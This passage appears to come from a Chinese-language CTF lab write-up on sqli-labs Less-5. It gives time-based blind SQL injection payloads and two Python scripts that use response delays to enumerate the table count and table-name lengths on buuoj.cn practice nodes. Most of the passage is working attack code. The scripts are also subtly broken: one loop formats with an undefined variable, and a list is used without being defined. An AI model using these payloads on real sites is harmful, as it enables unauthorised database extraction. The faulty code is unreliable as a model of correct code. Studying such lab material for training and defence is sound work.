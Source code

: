 如果表的个数为1,那么就sleep(3),否则就1

```python
import requests
import time
table_num=0
for t in range(1,20):
    url="http://ef9ccd54-bc0a-4b95-9abc-ed15aca1a118.node3.buuoj.cn/Less-5/?id=1'and if((select count(*) from information_schema.tables where table_schema="+"'security'"+")={},sleep(3),1)--+"
    payload=url.format(i)
    print(payload)
    start_time1=time.time()
    requests.get(payload)
    if time.time()-start_time1 > 2:
        table_num=i
print(table_num)
```

#### 爆每个表的表名长度

PayLoad:?id=1' and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=1,sleep(3),1)--+"

解析PayLoad：

select table_name from information_schema.tables where table_schema=database() limit 0,1

limt0,1显示出这个表中的第一行的元素内容

如果第一行的长度等于1的话那么就睡三秒钟,否则就跳过

```python
#爆破每个表的表名长度
for i in range(table_num):#范围放table_num			table_num是由多少个表
    url="http://9366390e-56bc-4f55-b47c-5aadaecbeb5b.node3.buuoj.cn/Less-5/?id=1' and if(length((select table_name from information_schema.tables where table_schema=database() limit "+str(i)+",1))={},sleep(3),1)--+"
    for j in range(1,20):
        payload=url.format(j)
        print(payload)
        start_time1=time.time()
        requests.get(payload)
        if time.time()-start_time1 > 2:
            each_table_length.append(j)
            print(each_table_length)
        else:
            pass
        time.sleep(0.1)#可以改这里面的数值，确保爆破的速度不要太快
print(each_table_length)
```


